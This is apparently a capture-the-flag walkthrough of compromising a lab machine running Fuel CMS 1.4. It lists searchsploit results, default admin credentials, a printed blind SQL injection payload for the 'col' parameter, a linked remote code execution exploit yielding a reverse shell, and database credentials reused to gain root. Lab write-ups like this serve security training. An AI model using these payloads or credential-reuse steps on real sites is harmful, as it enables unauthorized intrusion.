

1. Obtain IP 10.10.173.196
2. Enter SITE URL http://10.10.173.196
3. Found Webpage at port 80
4. Title says Welcome to Fuel CMS - Version 1.4
5. Searchsploit fuel

```shell
searchsploit fuel
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AMD Fuel Service - 'Fuel.service' Unquote Service Path                                                                                      | windows/local/49535.txt
Franklin Fueling Systems  TS-550 - Exploit and Default Password                                                                             | hardware/remote/51321.txt
Franklin Fueling Systems Colibri Controller Module 1.8.19.8580 - Local File Inclusion (LFI)                                                 | linux/remote/50861.txt
Franklin Fueling Systems TS-550 - Default Password                                                                                          | hardware/remote/51382.txt
Franklin Fueling TS-550 evo 2.0.0.6833 - Multiple Vulnerabilities                                                                           | hardware/webapps/31180.txt
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                 | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                            | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)                                                                                          | php/webapps/50884.txt
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
6. 

```
To access the FUEL admin, go to:
http://10.10.173.196/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```

Lets try this

```bash
cat /usr/share/exploitdb/exploits/php/webapps/50523.txt -p
# Exploit Title: Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)
# Date: 2021-04-11
# Exploit Author: Rahad Chowdhury
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/archive/1.4.13.zip
# Version: 1.4.13
# Tested on: Kali Linux, PHP 7.4.16, Apache 2.4.46

Steps to Reproduce:
1. At first login your panel
2. then go to "Activity Log" menu
3. then select any type option
4. their "col" parameter is vulnerable. Let's try to inject Blind SQL Injection using this query "and (select * from(select(sleep(1)))a)" in "col=" parameter.

POC:
http://127.0.0.1/fuel/logs/items?type=debug&search_term=&limit=50&view_type=list&offset=0&order=desc&col=entry_date
and (select * from(select(sleep(1)))a)&fuel_inline=0

Output:
By issuing sleep(0) response will be delayed to 0 seconds.
By issuing sleep(1) response will be delayed to 1 seconds.
By issuing sleep(5) response will be delayed to 5 seconds.
By issuing sleep(10) response will be delayed to 10 seconds
```

With this information I read more about it and find [THIS](https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated/blob/main/README.md)

Which got me a reverse shell.



## Database Creds

```shell
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

Now we can re-use the password that we got to do a `su root` and `cat /root/root.txt`.

## Links

- https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated/blob/main/README.md
- https://hashes.com/en/tools/hash_identifier